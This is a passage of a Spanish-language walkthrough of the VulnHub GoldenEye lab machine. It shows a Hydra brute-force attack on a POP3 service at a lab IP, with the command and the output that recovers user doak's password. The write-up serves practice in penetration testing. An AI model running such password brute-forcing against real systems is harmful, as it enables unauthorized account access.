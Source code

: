 Navegando dentro del sitio, en ***My profile > Messages*** tenemos un mensaje del usuario **Dr Doak** :

![](/assets/images/vh-goldeneye/goldeneye-web8.png)

Básicamente nos dice que el usuario de correo electrónico es **doak**; por lo que ya debemos estar pensando que tratar de utilizar fuerza bruta para obtener su contraseña.

```bash
❯ hydra -l doak -P /usr/share/wordlists/fasttrack.txt pop3://10.0.0.24 -s 55007
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-01 18:45:53
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 222 login tries (l:1/p:222), ~14 tries per task
[DATA] attacking pop3://10.0.0.24:55007/
[STATUS] 80.00 tries/min, 80 tries in 00:01h, 142 to do in 00:02h, 16 active
[STATUS] 72.00 tries/min, 144 tries in 00:02h, 78 to do in 00:02h, 16 active
[55007][pop3] host: 10.0.0.24   login: doak   password: goat
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-01-01 18:48:21
```
